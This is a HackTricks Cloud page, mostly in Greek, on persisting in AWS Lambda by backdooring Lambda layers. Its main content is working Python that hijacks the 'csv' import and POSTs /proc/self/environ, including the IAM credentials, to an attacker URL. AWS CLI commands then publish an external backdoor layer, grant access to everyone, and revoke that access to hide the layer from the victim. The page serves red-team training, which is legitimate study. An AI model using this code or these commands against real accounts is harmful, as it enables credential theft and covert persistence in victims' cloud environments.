# AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Ένα Lambda layer είναι ένα αρχείο .zip που **μπορεί να περιέχει επιπλέον κώδικα** ή άλλο περιεχόμενο. Ένα layer μπορεί να περιέχει βιβλιοθήκες, μια [προσαρμοσμένη εκτέλεση](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), δεδομένα ή αρχεία ρυθμίσεων.

Είναι δυνατόν να συμπεριλάβετε έως **πέντε layers ανά λειτουργία**. Όταν συμπεριλαμβάνετε ένα layer σε μια λειτουργία, το **περιεχόμενο εξάγεται στον φάκελο `/opt`** στο περιβάλλον εκτέλεσης.

Κατά **προεπιλογή**, τα **layers** που δημιουργείτε είναι **ιδιωτικά** για τον λογαριασμό σας AWS. Μπορείτε να επιλέξετε να **μοιραστείτε** ένα layer με άλλους λογαριασμούς ή να **κάνετε** το layer **δημόσιο**. Εάν οι λειτουργίες σας καταναλώνουν ένα layer που δημοσίευσε διαφορετικός λογαριασμός, οι λειτουργίες σας μπορούν να **συνεχίσουν να χρησιμοποιούν την έκδοση του layer μετά την διαγραφή του, ή μετά την ανάκληση της άδειάς σας για πρόσβαση στο layer**. Ωστόσο, δεν μπορείτε να δημιουργήσετε μια νέα λειτουργία ή να ενημερώσετε λειτουργίες χρησιμοποιώντας μια διαγραμμένη έκδοση layer.

Οι λειτουργίες που αναπτύσσονται ως εικόνα κοντέινερ δεν χρησιμοποιούν layers. Αντίθετα, συσκευάζετε την προτιμώμενη εκτέλεση, τις βιβλιοθήκες και άλλες εξαρτήσεις στην εικόνα κοντέινερ όταν κατασκευάζετε την εικόνα.

### Python load path

Η διαδρομή φόρτωσης που θα χρησιμοποιήσει η Python στο lambda είναι η εξής:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Έλεγχος του πώς οι **δεύτερες** και τρίτες **θέσεις** καταλαμβάνονται από καταλόγους όπου οι **lambda layers** αποσυμπιέζουν τα αρχεία τους: **`/opt/python/lib/python3.9/site-packages`** και **`/opt/python`**

{% hint style="danger" %}
Εάν ένας επιτιθέμενος καταφέρει να **backdoor** μια χρησιμοποιούμενη **lambda layer** ή **προσθέσει μία** που θα **εκτελεί αυθαίρετο κώδικα όταν φορτώνεται μια κοινή βιβλιοθήκη**, θα είναι σε θέση να εκτελεί κακόβουλο κώδικα με κάθε κλήση lambda.
{% endhint %}

Επομένως, οι απαιτήσεις είναι:

* **Έλεγχος βιβλιοθηκών** που είναι **φορτωμένες** από τον κώδικα των θυμάτων
* Δημιουργία μιας **βιβλιοθήκης proxy με lambda layers** που θα **εκτελεί προσαρμοσμένο κώδικα** και θα **φορτώνει την αρχική** βιβλιοθήκη.

### Προφορτωμένες βιβλιοθήκες

{% hint style="warning" %}
Όταν εκμεταλλεύεστε αυτή την τεχνική, βρήκα μια δυσκολία: Ορισμένες βιβλιοθήκες είναι **ήδη φορτωμένες** στο runtime της python όταν εκτελείται ο κώδικάς σας. Περίμενα να βρω πράγματα όπως `os` ή `sys`, αλλά **ακόμα και η βιβλιοθήκη `json` ήταν φορτωμένη**.\
Για να εκμεταλλευτείτε αυτή την τεχνική επιμονής, ο κώδικας πρέπει να **φορτώσει μια νέα βιβλιοθήκη που δεν είναι φορτωμένη** όταν εκτελείται ο κώδικας.
{% endhint %}

Με έναν κώδικα python όπως αυτόν είναι δυνατόν να αποκτήσετε τη **λίστα των βιβλιοθηκών που είναι προφορτωμένες** μέσα στο runtime της python σε lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Και αυτή είναι η **λίστα** (ελέγξτε ότι οι βιβλιοθήκες όπως `os` ή `json` είναι ήδη εκεί)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Και αυτή είναι η λίστα με τις **βιβλιοθήκες** που **περιλαμβάνει η lambda εγκατεστημένες από προεπιλογή**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring Lambda Layer

Σε αυτό το παράδειγμα ας υποθέσουμε ότι ο στοχευμένος κώδικας εισάγει **`csv`**. Θα **backdoor-άρουμε την εισαγωγή της βιβλιοθήκης `csv`**.

Για να το κάνουμε αυτό, θα **δημιουργήσουμε τον φάκελο csv** με το αρχείο **`__init__.py`** μέσα σε μια διαδρομή που φορτώνεται από τη lambda: **`/opt/python/lib/python3.9/site-packages`**\
Έτσι, όταν η lambda εκτελείται και προσπαθεί να φορτώσει **csv**, το **αρχείο `__init__.py` μας θα φορτωθεί και θα εκτελεστεί**.\
Αυτό το αρχείο πρέπει να:

* Εκτελεί το payload μας
* Φορτώνει την αρχική βιβλιοθήκη csv

Μπορούμε να κάνουμε και τα δύο με:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

The integrated payload will **send the IAM creds to a server THE FIRST TIME it's invoked or AFTER a reset of the lambda container** (change of code or cold lambda), but **other techniques** such as the following could also be integrated:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### External Layers

Note that it's possible to use **lambda layers from external accounts**. Moreover, a lambda can use a layer from an external account even if it doesn't have permissions.\
Also note that the **max number of layers a lambda can have is 5**.

Therefore, in order to improve the versatility of this technique an attacker could:

* Backdoor an existing layer of the user (nothing is external)
* **Create** a **layer** in **τον λογαριασμό του**, give the **victim account access** to use the layer, **configure** the **layer** in victims Lambda and **remove the permission**.
* The **Lambda** will still be able to **use the layer** and the **victim won't** have any easy way to **download the layers code** (apart from getting a rev shell inside the lambda)
* The victim **won't see external layers** used with **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
